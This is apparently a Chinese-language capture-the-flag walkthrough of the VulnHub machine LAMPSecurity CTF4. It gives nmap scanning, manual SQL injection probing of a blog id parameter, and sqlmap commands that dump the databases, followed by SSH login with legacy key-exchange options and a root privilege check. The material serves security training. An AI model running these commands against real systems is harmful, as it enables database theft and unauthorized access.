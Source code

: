 # LAMPSECURITY: CTF4

> 靶机文档：[LAMPSECURITY: CTF4](https://www.vulnhub.com/entry/lampsecurity-ctf4,83/)
>
> 下载地址：[**Download (Mirror)**](https://download.vulnhub.com/lampsecurity/ctf4.zip)
>

### nmap扫描

详细扫描

```bash
sudo nmap -sT -sV -O -p22,25,80,631 10.9.75.12 -oA ./sT 
```



![image-20240120201755011](imgs/image-20240120201755011.png)

### SQL注入

访问80端口

![image-20240120202322533](imgs/image-20240120202322533.png) 

当访问`Blog`的时候

![image-20240120202357553](imgs/image-20240120202357553.png)

地址 变成了`http://10.9.75.12/index.html?page=blog&title=Blog&id=2`

http://10.9.75.12/index.html?page=blog&title=Blog&id=2'

![image-20240120202431461](imgs/image-20240120202431461.png)

发现SQL报错

### sqlmap枚举

使用`sqlmap`跑

```bash
python3 sqlmap.py -u "http://10.9.75.12/index.html?page=blog&title=Blog&id=2"
```

![image-20240120202806961](imgs/image-20240120202806961.png)

存在注入点

枚举所有数据库

```bash
python3 sqlmap.py -u "http://10.9.75.12/index.html?page=blog&title=Blog&id=2" --dbs --batch
```

![image-20240120203019829](imgs/image-20240120203019829.png)

枚举当前数据库

```bash
python3 sqlmap.py -u "http://10.9.75.12/index.html?page=blog&title=Blog&id=2" --current-db --batch
```

![image-20240120203054886](imgs/image-20240120203054886.png)

```bash
python3 sqlmap.py -u "http://10.9.75.12/index.html?page=blog&title=Blog&id=2" --dbs --dump --batch
```

![image-20240120203356282](imgs/image-20240120203356282.png)

前期扫描扫出来`22`端口

尝试SSH连接

```bash
ssh dstevens@10.9.75.12
```

![image-20240120205506247](imgs/image-20240120205506247.png)

```bash
ssh  -oKexAlgorithms=diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1  dstevens@10.9.75.12
```

![image-20240120205900569](imgs/image-20240120205900569.png)

```bash
ssh  -oHostKeyAlgorithms=ssh-rsa,ssh-dss  -oKexAlgorithms=diffie-hellman-group-exchange-sha1,diffie-hellman-group14-sha1,diffie-hellman-group1-sha1  dstevens@10.9.75.12
```

![image-20240120205924107](imgs/image-20240120205924107.png)

查看能以`root`运行的权限

![image-20240120210021562](imgs/image-20240120210021562.png)

发现有所有的权限

### 提权

![image-20240120210057960](imgs/image-20240120210057960.png)
